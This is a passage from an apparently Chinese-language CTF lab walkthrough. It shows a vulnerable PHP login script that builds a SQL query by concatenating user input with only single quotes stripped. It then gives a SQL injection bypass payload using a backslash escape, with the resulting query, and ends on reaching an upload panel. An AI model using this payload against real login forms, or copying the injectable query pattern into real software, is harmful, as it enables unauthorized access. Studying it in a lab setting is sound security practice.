   ```php
    Username :- <Input type=text name=un> &nbsp Password:- <input type=password name=ps> <br><br>
    <input type=submit name=login value="let\'s login">';
    }
    if(isset($_POST['login']))
    {
    	$uname=str_replace('\'','',urldecode($_POST['un']));
    	$pass=str_replace('\'','',urldecode($_POST['ps']));
    	$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
    	$result = mysqli_query($conn, $run);
    if (mysqli_num_rows($result) > 0) {
    
    $row = mysqli_fetch_assoc($result);
    	   echo "You are allowed<br>";
    	   $_SESSION['logged']=true;
    	   $_SESSION['admin']=$row['username'];
    	   
    	 header('Location: panel.php', true, 302);
       
    }
    else
    {
    	echo "<script>alert('Try again');</script>";
    }
    	
    }
    echo "<font size=5 face=\"comic sans ms\" style=\"left: 0;bottom: 0; position: absolute;margin: 0px 0px 5px;\">B0X Powered By <font color=#ff9933>Pirates</font> ";
    
    ?>
  ```
  
  可以发现原来是过滤了单引号，且密码`ps`字段没有进行哈希，到这我意识到前面注入测试时没有考虑这种情况，其实很简单，payload为`un=or 1#&ps=\&login=let's login`，拼接后查询语句为
  
  ```sql
    select * from auth where  pass='\' and uname='or 1#';
  ```
  
- 利用sqli登陆后，来到`/panel.php`界面

  在这里可以进图片上传和查看

  ![](./img/panel.jpg)
